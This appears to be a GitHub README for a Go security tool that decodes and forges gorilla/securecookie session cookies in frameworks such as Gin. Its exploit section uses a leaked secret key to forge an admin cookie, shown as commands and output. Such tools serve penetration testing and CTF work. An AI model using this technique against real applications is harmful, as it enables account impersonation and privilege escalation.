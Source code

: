 # Secure-Cookie-Faker

security tool to encode/decode Golang web-frameworks' client-side session cookie which use [gorilla/securecookie](https://github.com/gorilla/securecookie) or [gorilla/sessions](https://github.com/gorilla/sessions), such as Gin, Echo or Iris

***

## Stats

top stars Go web-frameworks' using of [gorilla/securecookie](https://github.com/gorilla/securecookie) or [gorilla/sessions](https://github.com/gorilla/sessions)

(stars count comes from [go-web-framework-stars](https://github.com/mingrammer/go-web-framework-stars))

| web framework                                    | stars | uses gorilla's securecookie or sessions? |
| ------------------------------------------------ | ----- | ---------------------------------------- |
| [gin](https://github.com/gin-gonic/gin)          | 28126 | ✔                                        |
| [beego](https://github.com/astaxie/beego)        | 20805 | ✘                                        |
| [iris](https://github.com/kataras/iris)          | 15102 | ✔                                        |
| [echo](https://github.com/labstack/echo)         | 14180 | ✔                                        |
| [kit](https://github.com/go-kit/kit)             | 13920 | ✘                                        |
| [revel](https://github.com/revel/revel)          | 11125 | ✘                                        |
| [martini](https://github.com/go-martini/martini) | 10572 | ✔                                        |

and many personal application using them as a basic web application toolkit [link](https://github.com/search?q=import+%22github.com%2Fgorilla%2Fsessions%22&type=Code)

***

## Exploit

secret-key ensures the safety of the client-side cookie, if secret-key was gotten by **source code leaked**, **LFI**, or ...etc., hacking that web application becomes so easy

take the Gin web-framework as an example

**source code:**

```go
package main

import (
    "github.com/gin-gonic/gin"
    "github.com/gin-contrib/sessions"
    "github.com/gin-contrib/sessions/cookie"
)

func main() {
    r := gin.Default()

    store := cookie.NewStore([]byte("xxxxxxxxxxxx"))
    r.Use(sessions.Sessions("session", store))

    r.GET("/", func(c *gin.Context) {
        session := sessions.Default(c)
        session.Set("user", "test")
        session.Set("id", 100)
        session.Set("point", 0)
        session.Save()
    })

    r.GET("/show", func(c *gin.Context) {
        session := sessions.Default(c)
        user := session.Get("user")
        id := session.Get("id")
        point := session.Get("point")
        c.JSON(200, gin.H{
            "user": user,
            "id": id,
            "point": point,
        })
    })

    r.Run(":5000")
}
```

request to `/`，get cookie: 

`Set-Cookie: session=MTU2MTE4NjIzNnxEdi1CQkFFQ180SUFBUkFCRUFBQVVQLUNBQU1HYzNSeWFXNW5EQVlBQkhWelpYSUdjM1J5YVc1bkRBWUFCSFJsYzNRR2MzUnlhVzVuREFRQUFtbGtBMmx1ZEFRREFQX0lCbk4wY21sdVp3d0hBQVZ3YjJsdWRBTnBiblFFQWdBQXxlwq6mxtwXuKDMeXOyDaHpR-Hcn0veF2OmBqc4F76puQ==`

decode it

```
λ .\faker.exe dec -n session -k xxxxxxxxxxxx -c "MTU2MTE4NjIzNnxEdi1CQkFFQ180SUFBUkFC RUFBQVVQLUNBQU1HYzNSeWFXNW5EQVlBQkhWelpYSUdjM1J5YVc1bkRBWUFCSFJsYzNRR2MzUnlhVzVuREFRQUFtbGtBMmx1ZEFRREFQX0lCbk4wY21sdVp3d0hBQVZ3YjJsdWRBTnBiblFFQWdBQXxlwq6mxtwXuKDMeXOyDaHpR-Hcn0veF2OmBqc4F76puQ=="
map[id:100 point:0 user:test]
type detail:
{
    user[string]: test[string],
    id[string]: 100[int],
    point[string]: 0[int],
}
```

fake identity

```
λ .\faker.exe enc -n session -k xxxxxxxxxxxx -o "{user:admin, id:0[int], point:99999[ int]}"
MTU2MTE4NjQzNHxFXy1CQkFFQkEwOWlhZ0hfZ2dBQkVBRVFBQUJUXzRJQUF3WnpkSEpwYm1jTUJnQUVkWE5sY2daemRISnBibWNNQndBRllXUnRhVzRHYzNSeWFXNW5EQVFBQW1sa0EybHVkQVFDQUFBR2MzUnlhVzVuREFjQUJYQnZhVzUwQTJsdWRBUUZBUDBERFQ0PXwKR14WwPjXeUBZlZ0sKcEfRu-n7_va9drjsFaIEVahmA==
```

modify cookie, then request to `/show`，we are admin now

***

## Installation

```
go get github.com/eddieivan01/secure-cookie-faker
go install -ldflags="-s -w"
```

or 

```
git clone https://github.com/eddieivan01/secure-cookie-faker.git
cd secure-cookie-faker
go build -ldflags="-s -w" -o faker
```

or

download binary file from [releases page](https://github.com/eddieivan01/secure-cookie-faker/releases)

***

## Usage

```
Secure Cookie Faker v0.1

Usage: faker [enc/dec] [-n cookie_name] [-k secret_key] [-o object_string / -c cookie_string]

Mode: 
  dec
        decode mode, cookie => object
  enc
        encode mode, object => cookie

Options:
  --help    show help
  -k string
        secret keys, string like "key" or "key1, key2, key3"
  -n string
        cookie name
  -o string
        object to be encoded, string like "{key1[type]: value1[type], key2[type]: value2[type]}"
        type could be `int`, `float`, `bool`, `string`, `byte`
        when type is `string`, it could be omitted. like this {str1: str2}
        if mode is encode, this param is required
  -c string
        cookie to be decoded
        if mode is decode, this param is required
```

## Example

choosing a mode is required: enc or dec
```
./faker dec -n "mysession" -k "secret_key" -c "MTU2MTE4NjQzNHxFXy1CQkFFQkEwOWlhZ0hfZ2dBQkVBRVFBQUJUXzRJQUF3WnpkSEpwYm1jTUJnQUVkWE5sY2daemRISnBibWNNQndBRllXUnRhVzRHYzNSeWFXNW5EQVFBQW1sa0EybHVkQVFDQUFBR2MzUnlhVzVuREFjQUJYQnZhVzUwQTJsdWRBUUZBUDBERFQ0PXwKR14WwPjXeUBZlZ0sKcEfRu-n7_va9drjsFaIEVahmA=="
```

`-n` means the cookie name, its required because the cookie generation relies on it

`-k` means the secret key(s), could be multiple: `-k "key1, key2, key3"`

`-c` means the cookie to be decoded

***

when encode a object

```
./faker enc -n "mysession" -k "secret" -o "{user: admin, id: 0[int]}"
```

`-o `means the object string，its like a K-V map. 

when the element is `string` type, the type tag can be omitted

the type tag can only be `int`,  `uint`,  `float`,  `bool`,  `string`,  `byte`

***

## Feature

* CLI tool to fake session-cookie
* parse the type hint when decoding / choose the type when encoding

***

## TODO

- [ ] support slice type